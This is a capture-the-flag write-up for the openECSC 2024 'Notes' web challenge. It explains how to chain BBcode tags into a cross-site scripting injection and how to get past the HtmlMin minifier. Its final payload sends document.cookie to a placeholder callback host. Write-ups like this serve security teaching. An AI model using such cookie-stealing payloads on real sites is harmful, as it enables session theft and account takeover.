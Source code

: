 # openECSC 2024 - Round 3

## [web] Notes (5 solves)

Great news! BabyNotes is not a baby anymore!

Read the changelog [here](https://notes.challs.open.ecsc2024.it/view.php?id=changelog)

Authors: Riccardo Bonafede <@bonaff>, Stefano Alberto <@Xato>

## Overview

The application is the successor of [BabyNotes](https://github.com/ECSC2024/openECSC-2024/tree/main/round-2/web03).

All the previous vulnerabilities are (kinda) fixed, and it was added a BBcode parser during the rendering of a note.

## Solution

The intended solution is to break the BBcode parser in order to obtain an XSS using a combination of the `[img]`, `[math]`, and `[code]` tags.

- The `[img]` tag takes an URL, and create a `<img>` html tag. It uses a (bugged)check that deletes every BBcodes tag inside the URL.
- The `[math]` tag strips every HTML tag
- The `[code]` tag substitutes its content with a placeholder, in the form of `>>>$id<<<`, that will substitute back with its original content at the end of the parsing.

The main idea is to abuse a combination of code and math to delete a double quote (`"`) at the end of the `src` attribute of an`img` tag, in order to inject an `onError` attribute.

Using the placeholder created from the `[code]` tag, it is possible to create html tags that can be deleted by the math attribute. take the following payload as an example:

```html
[img]http://foo.com/[math[math]][code]a[/code][/img][/math][img]http://a/onerror=alert(1)//;[/img]
```

At first, the [code] tag is replaced with its placeholder:

```html
[img]http://foo.com/[math[math]]>>>1<<<[/img][/math][img]http://a/onerror=alert(1)//;[/img]
```

Then the [img] is parsed, and transformed to its HTML counterpart (notice how the [math[math]] is transformed to [math]):

```html
<img src="http://foo.com/[math]>>>1<<<">[/math]<img src="http://a/onerror=alert(1)//;">
```

Finally, math will strip every HTML tag, in this case only the <"> tag:

```html
<img src="http://foo.com/[math]>>>1<<[/math]<img src="http://a/onerror=alert(1)//;">
```

The final part is to "bypass" the HTML minifier ([HTMLmin](https://github.com/voku/HtmlMin)) applied to every response. This minifier will delete the onError attribute from the img tag.

HTMLmin works by parsing the HTML code, "fixing" it if there are some unclosed tags, and then deleting every part that is not necessary. The interesting part is at the end of the minify function:

```php
    // ------------------------------------
    // check if compression worked
    // ------------------------------------

    if ($origHtmlLength < \strlen($html)) {
      $html = $origHtml;
    }

    return $html;
```

So, if the minified HTML is bigger than the original, the library will keep the original.
Making a minified HTML bigger than the original is quite simple: because the minify process will try to close every unclosed tag, it is possible to abuse the math tag to delete a closing HTML tag. A payload that does this is the following one:

```bbcode
[i][math][/i][/math]
```

that will be translated to a span tag without the </span> closing tags. Spamming a bunch of these will lead to a bigger minified HTML.

## Exploit

Payload:

```bbcode
[img]http://foo.com/[math[math]][code]a[/code][/img][/math][img]http://a/onerror=location.href=`//{CALLBACK_HOST}/`+document.cookie//;[/img]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
[i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math][i][math][/i][/math]
```
